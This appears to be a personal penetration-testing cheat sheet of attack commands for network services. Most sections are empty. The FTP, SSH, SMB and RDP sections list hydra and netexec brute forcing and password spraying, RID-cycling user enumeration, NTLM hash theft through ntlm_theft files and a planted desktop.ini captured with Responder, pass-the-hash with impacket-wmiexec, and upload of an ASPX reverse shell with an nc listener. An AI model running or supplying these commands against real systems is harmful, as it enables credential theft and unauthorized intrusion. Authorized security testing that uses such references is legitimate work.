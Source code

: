 ```yaml
---
layout: notes
permalink: /notes/network/services/
title: Network Services Pentesting Cheat Sheet
---
```




# Network Services Pentesting Cheat Sheet
<details markdown="1">
<summary>FTP (21)</summary>

```bash
#Login
ftp <IP> #optional port
lftp <IP>
anonymous:anonymous

#Commands
cd
ls -a # List all files (even hidden)
put <filename> #Upload file
get <filename> #Download file
mput/mget #Upload/Downlaod multiple files
quit

#Download all files
wget -m ftp://anonymous:anonymous@10.10.10.98
wget -m --no-passive ftp://anonymous:anonymous@10.10.10.98
wget -r --user="USERNAME" --password="PASSWORD" ftp://server.com/ #If your user/password has special characters

#nmap
nmap --script ftp-* -p 21 <IP>

#metasploit
use auxiliary/scanner/ftp/anonymous
use auxiliary/scanner/ftp/ftp_login
use auxiliary/scanner/ftp/ftp_version
use auxiliary/scanner/ftp/ftp_bounce
use auxiliary/scanner/ftp/bison_ftp_traversal
use auxiliary/scanner/ftp/colorado_ftp_traversal
use auxiliary/scanner/ftp/titanftp_xcrc_traversal

#Enum dirs
gobuster dir -u ftp://<IP> -w wordlist

#Bruteforce
hydra -t 1 -l {Username} -P {Big_Passwordlist} -vV {IP} ftp
hydra -l ftp -P password.txt ftp://$ip 
hydra -L username.txt -P password.txt ftp://$ip
```
</details>

<details markdown="1">
<summary>SSH (22)</summary>

```bash
#Password spraying
hydra -L usernames-list.txt -p Spring2025 ssh://10.1.1.10
```
</details>

<details markdown="1">
<summary>Telnet (23)</summary>

```bash

```
</details>

<details markdown="1">
<summary>SMTP (25/465/587)</summary>

```bash

```
</details>

<details markdown="1">
<summary>DNS (53)</summary>

```bash

```
</details>

<details markdown="1">
<summary>POP (110/995)</summary>

```bash

```
</details>

<details markdown="1">
<summary>Kerberos (88)</summary>

```bash

```
</details>

<details markdown="1">
<summary>SMB (139/445)</summary>

### Enumeration
```bash
#nmap
nmap --script smb-brute -p 139,445 <target-ip>
nmap --script smb-enum-shares.nse,smb-enum-users.nse -p 139,445 <target-ip>
nmap --script smb-enum* -p 139,445 <target-ip>
nmap --script smb-protocols -p 139,445 <target-ip>
nmap --script smb-vuln* -p 139,445 <target-ip>

# NetBIOS names
nmblookup -A 10.0.0.1
nbtscan 10.0.0.1
nbtscan -r 10.0.0.1/24

# Enum4linux
enum4linux <target-ip>
# All enumeration
enum4linux -a <target-ip>
# Verbose
enum4linux -v <target-ip>
# Specify username and password
enum4linux -u username -p password <target-ip>

# Enum4linux-ng
# -A: All simple enumeration including nmblookup
enum4linux-ng -A <target-ip>
# -As: All simple short enumeration without NetBIOS names lookup
enum4linux-ng -As <target-ip>
# -u: Specific username
# -p: Specific password
enum4linux-ng -u "administrator" -p "password" <target-ip>

# NetExec (https://www.netexec.wiki/)
netexec smb 10.0.0.0/24
netexec smb <target-ip>
netexec smb <target-ip-1> <target-ip-2>
netexec smb <target-ip> --pass-pol
netexec smb <target-ip> --groups
netexec smb <target-ip> --users
# Specify username/password
netexec smb <target-ip> -u username -p password
netexec smb <target-ip> -u username -p password --users
# -M zerologon: Scan for ZeroLogon
# -M petitpotam: Scan for PetitPotam
netexec smb <target-ip> -u '' -p '' -M zerologon -M petitpotam
```
### Find Shared Folders
```bash
# -N: No password
# -L: List shared directories
smbclient -N -L <target-ip>
smbclient -L <target-ip> -U username

smbmap -H <target-ip>
# Recursive
smbmap -H <target-ip> -R
# Username and password
smbmap -u username -p password -H <target-ip>
# Execute a command
smbmap -u username -p password -H <target-ip> -x 'ipconfig'

netexec smb <target-ip> -u '' -p '' --shares
netexec smb <target-ip> -u username -p password --shares

impacket-psexec example.local/username@<target-ip>
```
### Bruteforce
```bash
netexec smb <target-ip> -u username -p passwords.txt --continue-on-success
netexec smb <target-ip> -u usernames.txt -H ntlm_hashes.txt --continue-on-success

hydra -l username -P passwords.txt <target-ip> smb
hydra -L usernames.txt -p password <target-ip> smb

# RID Brute Force
netexec smb <target-ip> -u username -p password --rid-brute 20000

# Using Metasploit
msfconsole -q
msf> use auxiliary/scanner/smb/smb_login

#If we find credentials, we can use them for smbclient or WinRM. 
#If we got "STATUS_PASSWORD_MUST_CHANGE" for some users, we can update a current password to a new one.
smbpasswd -r <target-ip> -U <username>
# or
impacket-smbpasswd <DOMAIN>/<username>:<password>@<target-ip> -newpass <new-password>
# If you don't have impacket-smbpasswd, download it from a repository.
wget https://raw.githubusercontent.com/fortra/impacket/master/examples/smbpasswd.py
```

### Password Spraying
```bash
# User enumeration
netexec smb <target-ip> -u John -p Password123 --users
netexec smb <target-ip> -u John -H <NTLM_HASH> --users

# Find users with same password
netexec smb <target-ip> -u users.txt -p Password123 --continue-on-success
netexec smb <target-ip> -u users.txt -p found_passwords.txt --continue-on-success
netexec smb <target-ip> -u users.txt -H <NTLM_HASH> --continue-on-success
netexec smb <target-ip> -u users.txt -H found_ntlm_hashes.txt --continue-on-success
```

### RID Cycling Attack
RID Enumeration. It attempts to enumerate user accounts through null sessions.
```bash
# Anonymous logon
# 20000: Maximum RID to be cycled
impacket-lookupsid example.local/anonymous@<target-ip> 20000 -no-pass
impacket-lookupsid example.local/guest@<target-ip> 20000 -no-pass
impacket-lookupsid example.local/guest@<target-ip> 20000
# Specify user
impacket-lookupsid example.local/user@<target-ip> 20000 -hashes <lmhash>:<nthash>
impacket-lookupsid example.local/user@<target-ip> 20000


# USEFUL COMMAND
# This command extract usernames. It's useful for further enumeration which uses usernames.
# Replace the following keywords:
#  - `example.com` => Target domain
#  - `10.0.0.1`    => Target IP
#  - `DOMAIN`      => Target domain name
impacket-lookupsid example.com/guest@10.0.0.1 20000 -no-pass > tmp.txt | cat tmp.txt | grep SidTypeUser | cut -d ' ' -f 2 | sed 's/DOMAIN\\//g' | sort -u > users.txt && rm tmp.txt
```

### NTLM Stealing via ntlm_tool
```bash
git clone https://github.com/Greenwolf/ntlm_theft
# -g all: Generate all files.
# -s: Local IP (attacker IP)
# -f: Folder to store generated files.
python3 ntlm_theft -g all -s <local-ip> -f samples

#After generating files with ntlm_theft put the .lnk file to shared folder
smbclient -N //10.0.0.1/example
smb> put samples.lnk

#Start responder
sudo responder -I eth0
```

### NTLM Stealing via Desktop.ini
```bash
#We can retrieve the hashes by putting desktop.ini file, that contains arbitrary icon resource path, to the shared folder.
#Create a new desktop.ini in local machine.
[.ShellClassInfo]
IconResource=\\<local-ip>\test

#Then upload it to the writable shared folder.
put desktop.ini

#Start responder
sudo responder -I eth0
```

### Connect
```bash
# anonymous login
smbclient //10.0.0.1/somedir -N
# If the folder name contains spaces, surround with double quotes
smbclient "//10.0.0.1/some dir" -N
# Specify user
smbclient //10.0.0.1/somedir -U username
# nobody, no-pass
smbclient //10.0.0.1/somedir -N -U nobody
# Specify workgroup
smbclient -L 10.0.0.1 -W WORKGROUP -U username

#Windows shell
impacket-wmiexec example.local/username@10.0.0.1
# Pass the Hash
impacket-wmiexec -hashes abcdef0123456789abcdef0123456789:c2597747aa5e43022a3a3049a3c3b09d example.local/username@10.0.0.1
```

### Commands
```bash
ls
get file.txt
get "my document.txt"

#Download all files
mask ""
recurse ON
prompt OFF
mget *

#Download files using smbget
smbget smb://<target-ip>/somedir/example.txt -U username
smbget -R smb://<target-ip>/somedir -U username
# Specify workgroup
smbget -R smb://<target-ip>/somedir -w WORKGROUP -U username
# as anonymous user
smbget smb://<target-ip>/somedir -U anonymous
password: anonymous

#Upload files
put example.txt

#Reverse shell
put shell.aspx
#Configure listener
nc -lvnp 4444
#Access the shared file
https://example.com/path/to/smb/share/shell.aspx
```

</details>

<details markdown="1">
<summary>IMAP (143/993)</summary>

```bash

```
</details>

<details markdown="1">
<summary>LDAP (389/636/3268/3269)</summary>

```bash

```
</details>

<details markdown="1">
<summary>MSSQL (1433)</summary>

```bash

```
</details>

<details markdown="1">
<summary>MysQL (3306)</summary>

```bash

```
</details>

<details markdown="1">
<summary>RDP (3389)</summary>

```bash
#Password spraying
git clone https://github.com/xFreed0m/RDPassSpray
#Options:
RDPassSpray.py [-h] (-U USERLIST | -u USER  -p PASSWORD | -P PASSWORDLIST) (-T TARGETLIST | -t TARGET) [-s SLEEP | -r minimum_sleep maximum_sleep] [-d DOMAIN] [-n NAMES] [-o OUTPUT] [-V]
#Usage:
python3 RDPassSpray.py -U users.txt -p Spring2025! -t 10.100.10.240:3389
```
</details>

<details markdown="1">
<summary>WinRM (5985/5986)</summary>

```bash

```
</details>